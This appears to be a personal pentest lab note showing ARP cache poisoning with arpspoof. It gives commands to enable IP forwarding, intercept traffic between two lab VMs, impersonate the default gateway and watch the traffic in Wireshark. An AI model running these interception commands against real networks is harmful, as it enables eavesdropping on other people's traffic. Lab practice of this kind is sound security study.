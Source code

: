```yaml
---
title: "Arpspoof Arp Cache Poisoning"
date: 2020-05-02T18:19:48+02:00
tags:
  - hacking
  - arp
  - spoof
  - pentest
---
```


Goal: tricking `arp` cache to redirect network traffic to us "Man in the middle".

- VM1: 192.168.1.244
- VM2: 192.168.1.145
- GW: 192.168.1.1

## Preqrequisites

```sh
# Enable ip forwarding
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
# Ensure arpspoof is avaailable
sudo apt install dsniff
```

## Listening to traffic between two VMs from a third VM.

```sh
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Start redirecting traffic from VM1 to VM2 to us
sudo arpspoof -i eth0 -t $VM1 $VM2
# Start redirecting traffic from VM2 to VM1 to us
sudo arpspoof -i eth0 -t $VM2 $VM1
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Using wireshark will allow to check/follow traffic
sudo whireshark
```

## Pretending to be the default gateway

```sh
# Checking arp table allow to check IP/Mac
arp -a
# Start redirecting traffic from VM1 to VM2 to us
sudo arpspoof -i eth0 -t $VM1 $GW
# Start redirecting traffic from VM2 to VM1 to us
sudo arpspoof -i eth0 -t $GW $VM1
# Using wireshark will allow to check/follow traffic
sudo whireshark
```
